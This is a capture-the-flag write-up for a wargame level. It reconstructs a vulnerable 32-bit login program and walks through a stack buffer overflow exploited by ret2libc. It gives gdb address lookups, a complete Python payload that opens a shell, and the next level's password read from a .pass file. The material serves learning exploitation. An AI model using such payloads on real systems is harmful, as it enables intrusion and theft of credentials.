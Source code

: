 # Level01

## Answer
Our C source code generates almost the same assembly code as the original binary. Compile it as follows:
> There is a slight difference in the assembly code as mentioned in the comments. Nonetheless, it doesn't change the program's behavior
```
gcc -fno-stack-protector -m32 -z execstack source.c
```

Let's take a look at the source code:
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char a_user_name[256];

int verify_user_name()
{
    puts("verifying username....\n");
    return strncmp(a_user_name, "dat_wil", 7);
}

int verify_user_pass(char *a_user_pass)
{
    return strncmp(a_user_pass, "admin", 5);
}

// line differences on main+11 and main+15 (extra use of eax)
int main()
{
    char buf[64]; // 0x1c(%esp)
    int ret; // 0x5c(%esp)

    memset(buf, 0, 64);
    ret = 0;

    puts("********* ADMIN LOGIN PROMPT *********");

    printf("Enter Username: ");
    fgets(a_user_name, 256, stdin);
    ret = verify_user_name();
    if (ret != 0)
    {
        puts("nope, incorrect username...");
        return 1;
    }

    puts("Enter Password: ");
    fgets(buf, 100, stdin);
    ret = verify_user_pass(buf);
    if (ret == 0 || ret != 0)
    {
        puts("nope, incorrect password...");
        return 1;
    }

    return 0;
}
```

Let's focus on the `main` function. It reads input using the `fgets` function, which is known to be safe as it has a mechanism to limit the number of bytes read. However we're reading 100 bytes in `buf` which only has 64 bytes allocated on the stack. This will allow us to overflow the buffer and overwrite the return address of the `main` function.

Let's analyze the stack layout of our program:
```bash
(gdb) b *main+226 # Breaking before leave and pop instructions
Breakpoint 1 at 0x80485b2

(gdb) r # Run the program
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username:
verifying username....

nope, incorrect username...


Breakpoint 1, 0x080485b2 in main ()

(gdb) info registers # Check esp and ebp addresses
[...]
esp            0xffffd6a0       0xffffd6a0
ebp            0xffffd708       0xffffd708
[...]
```

By calculating the difference between `esp` and `ebp` we can see that the stack is allocated 104 bytes:
```
0xffffd708 - 0xffffd6a0 = 68 (104 in decimal)
```	

Furthermore, we can see that our buffer is located at `0x1c(%esp),%eax`. Since there is 104 bytes for the stack, our buffer will therefore require 76 bytes (104 - 28) before reaching `ebp`.

Since our goal is to overflow the stack until we reach the return address of the main function, we need to add another 4 bytes to go from `ebp` to `ebp + 4` (the return address). So a total of 80 bytes (76 + 4).
> If you're struggling, you can just use a [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), to find the offset of the return address. However, it is recommended to understand the stack layout and how to calculate the offset yourself.

Anything written beyond those 80 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `main` function.

There are different ways to solve this challenge, we'll only cover the `ret2libc` method.
> When we refer to padding, we mean the bytes we need to write before reaching the return address.

### Ret2libc

#### Explanation
Ret2Libc (Return-to-Libc) is an exploit technique that redirects the program flow to execute existing library functions.

A typical Ret2Libc exploit is constructed as follows:
```
padding + address of system + address of exit + address of "/bin/sh"
```
> The address of exit is actually optional, but not providing it will cause the program to crash after executing the system function.

#### Exploit
We, therefore, need the addresses of the `system`, `exit` functions and the string `/bin/sh` in memory. These are found using GDB:

```bash
# System
(gdb) info function system
0xf7e6aed0  system
[...]

# Exit
(gdb) info function exit
0xf7e5eb70  exit
[...]

# /bin/sh
(gdb) info proc mappings
[...]
0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
[...]
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

Alright, let's craft our payload:
```
reminder: padding + address of system + address of exit + address of "/bin/sh"

"\x90"*80 + "\xf7\xe6\xae\xd0" + "\xf7\xe5\xeb\x70" + "\xf7\xf8\x97\xec"
```

Here's the complete exploit:
```python
(python -c 'print("dat_wil"); print("\x90"*80+"\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1])'; cat)| ./level01
```
> We also have to provide the username `dat_wil` to pass the first check from the `verify_user_name` function.

Let's run it:
```bash
(python -c 'print("dat_wil"); print("\x90"*80+"\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1])'; cat)| ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```


We are now level02! Let's move on to the next level.
